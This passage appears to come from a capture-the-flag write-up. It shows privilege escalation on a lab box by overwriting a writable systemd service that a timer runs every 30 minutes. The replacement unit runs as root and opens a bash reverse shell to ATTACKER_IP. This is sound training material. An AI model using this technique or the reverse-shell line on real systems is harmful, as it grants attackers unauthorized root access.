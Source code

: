 **Contents of vulnnet-auto.timer**:

<img style="float: left;" src="screenshots/screenshot22.png">

We can see that it makes a call to the **vulnnet-job.service** file every 30 minutes.

**Contents of vulnnet-job.service:**

<img style="float: left;" src="screenshots/screenshot23.png">

This service file executes the `/bin/df` program, which logs system statistics.

<br>

Since we can write over **vulnnet-job.service**, we can have it open up a reverse shell instead of executing `/bin/df`. 

*(Relevant article: https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)*

We'll replace **vulnnet-job.service** with the following file:

```
[Unit]
Description=abc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"

[Install]
WantedBy=multi-user.target
```

Thus, when vulnnet-job.service is called, it will execute a command that opens a reverse shell back to our machine.
